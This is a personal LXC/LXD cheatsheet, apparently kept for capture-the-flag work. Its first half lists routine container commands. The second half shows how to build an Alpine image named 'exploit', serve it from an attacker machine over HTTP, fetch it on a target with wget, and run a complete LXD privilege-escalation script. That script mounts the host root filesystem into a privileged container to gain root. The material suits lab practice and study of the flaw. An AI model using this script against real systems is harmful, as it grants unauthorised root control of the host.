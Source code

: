 #cheatsheets #lxc #lxd  

### generic commands
lxd version
```
$ lxd version
```
lxc version
```
$ lxc version
```
list storage pools
```
$ lxc storage list
```
get a new image (alpine)
```
$ lxc launch images:alpine/3.10 alpine01
```
get a new image (ubuntu)
```
$ lxc launch ubuntu:16.04
```
list images
```
$ lxc image list
```
list instances (containers)
```
$ lxc list
```
copy instances
```
$ lxc copy alpine01 alpine02
```
starting instance
```
$ lxc start alpine02
```
stopping instance
```
$ lxc stop alpine02
```
moving or renaming instance
```
$ lxc move alpine02 alpine03
```
accessing instance(container) ubuntu
```
$ lxc exec ubuntu01 bash
root@ubuntu01:~# hostname
ubuntu01
```
*be aware that you use the shell instance for that distribution*
accessing instance(container) alpine
```
$ lxc exec alpine02 ash
~ # hostname
alpine02
```
*alpine linux uses ash shell*

### stages to create container for transport
create image
```
$ lxc init images:alpine/3.10 exploit
```
check created by listing
```
$ lxc list
```
start instance
```
$ lxc start exploit
```
list to confirm started
```
$ lxc list
```
log in to check that it works
```
$ lxc exec exploit ash
~ # pwd
/root
~ # exit
```
stop instance
```
$ lxc stop exploit
```
publish the instance (and name)
```
$ lxc publish exploit --alias exploit-image
```
export instance to tar.gz
```
$ lxc image export exploit-image 
```
amend name to simplify matters
```
$ mv 7e17661f0e6aef740c97f8399746208297b001d676331ab4f467d400556f5cad.tar.gz CTF/0x41414141CTF/exploit-001.tar.gz
```
set up an http server on the attacker machine
```
/CTF/0x41414141CTF$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
transfer file from attacker to target by wget
```
$ wget http://10.10.10.10:8000/exploit-001.tar.gz
```
upload or copy and paste to known exploit shell file.
```bash
#!/usr/bin/env bash

# ----------------------------------
# Authors: Marcelo Vazquez (S4vitar)
#	   Victor Lasa      (vowkin)
# ----------------------------------

# Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]
# Step 2: Build alpine => bash build-alpine (as root user) [Attacker Machine]
# Step 3: Run this script and you will get root [Victim Machine]
# Step 4: Once inside the container, navigate to /mnt/root to see all resources from the host machine

function helpPanel(){
  echo -e "\nUsage:"
  echo -e "\t[-f] Filename (.tar.gz alpine file)"
  echo -e "\t[-h] Show this help panel\n"
  exit 1
}

function createContainer(){
  lxc image import $filename --alias alpine && lxd init --auto
  echo -e "[*] Listing images...\n" && lxc image list
  lxc init alpine privesc -c security.privileged=true
  lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
  lxc start privesc
  lxc exec privesc sh
  cleanup
}

function cleanup(){
  echo -en "\n[*] Removing container..."
  lxc stop privesc && lxc delete privesc && lxc image delete alpine
  echo " [√]"
}

set -o nounset
set -o errexit

declare -i parameter_enable=0; while getopts ":f:h:" arg; do
  case $arg in
    f) filename=$OPTARG && let parameter_enable+=1;;
    h) helpPanel;;
  esac
done

if [ $parameter_enable -ne 1 ]; then
  helpPanel
else
  createContainer
fi
```
change modification of file to allow execution.
```
$ chmod +x exploit.sh
```
run file and exploit
```
$ ./exploit.sh
```

